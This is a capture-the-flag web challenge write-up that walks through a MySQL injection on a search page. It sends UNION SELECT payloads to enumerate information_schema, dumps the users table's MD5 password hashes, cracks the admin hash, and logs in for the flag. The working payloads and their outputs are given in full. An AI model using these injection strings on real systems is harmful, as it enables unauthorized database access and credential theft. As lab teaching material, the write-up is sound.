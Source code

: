 Challenge description:
==
< oops! I lost the challenge description during editing... >

---
At the website, there is a login page and a search user page.

After trying common sql on the login page with no interesting response, we move on to __search user page__ which had already loaded 2 columns of Username, Nickname for everyone to see.

---
First observation @ http://web.spro.ink:3008/search.php

Results:

|Username|	Nickname
|---|---|
|admin	|	superuser
|xinan	|	the guy
|wenyan	|	the girl
|potato	|	the food
|sadhi	|	the friend
|john	|	the stranger
	
---
Test for SQL vulnerability
==
We try to see if there are any response when given an invalid data like a single quote. 

Results
>	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

When we see the error message, we can conclude that this input form is vulnerable to sql injection.

---
Constructing injection
==
From our very 1st observation, the 2 preloaded columns of Username and Nickname implied that a SELECT statement is inside.

My initial guess:	
```SQL
SELECT Username, Nickname from XXXX where Username='<input name here>'
```

We can make use of the ```UNION``` command to add another ```SELECT``` statements with same number of columns behind the guess.

There is also an interesting table known as ```information_schema``` in MySQL that can help provide us the Table name and its columns!

We proceed to inject the follow:
```sql
' UNION SELECT table_name, column_name FROM information_schema.columns WHERE '1'='1
```
    
Explanation:
- The first single quote terminate the string to be read by acting as a closing quote. Notice that the very last digit 1
do not have a closing quote? That's because we are making use of the closing quote within the hidden SQL command.

- ```UNION``` is used to exploit the fact we are aware of the hiden ```SELECT``` using 2 columns so we can combine with our own ```SELECT``` statement with 2 other interesting columns.

- where ```'1'='1'``` will always validate true so it will spew out all the table names and column names.

Results:

|Username	    |	Nickname|
|---|---|
|CHARACTER_SETS	|	CHARACTER_SET_NAME|
|CHARACTER_SETS	|	DEFAULT_COLLATE_NAME|
|CHARACTER_SETS	|	DESCRIPTION|
|CHARACTER_SETS	|	MAXLEN|
|COLLATIONS	    |	COLLATION_NAME|
|COLLATIONS	    |	CHARACTER_SET_NAME|
|COLLATIONS	    |	ID|
|COLLATIONS	    |	IS_DEFAULT|
|COLLATIONS	    |	IS_COMPILED|
|COLLATIONS	    |	SORTLEN|
|...|...|
|...|...|
|...|...|
|users|	        	id|
|users|	        	username|
|users|	        	password|
|users|	        	nickname|

---
Fine tuning
==
After knowing the Table name and column names, we can generate another SQL injection to get the credentials of admin
```sql
' UNION SELECT username, password FROM users WHERE '1'='1
``` 
Result:

|Username|	Nickname|
|---|---|
|admin|		79fff4b82b55a67cf96aa059dc1aa956|
|xinan|		7d493220036eb672a9e2d949920be704|
|wenyan|		7d493220036eb672a9e2d949920be704|
|potato|		7d493220036eb672a9e2d949920be704|
|sadhi|		7d493220036eb672a9e2d949920be704|
|john|		7d493220036eb672a9e2d949920be704|

---
Crack hash
==
We can crack the hash password @ https://crackstation.net/

The md5 hash password: ```clearwat```

Go login as admin with the password and we got the flag! :D 

---
flag{sql1_n3v3r_been_s0_eZ}
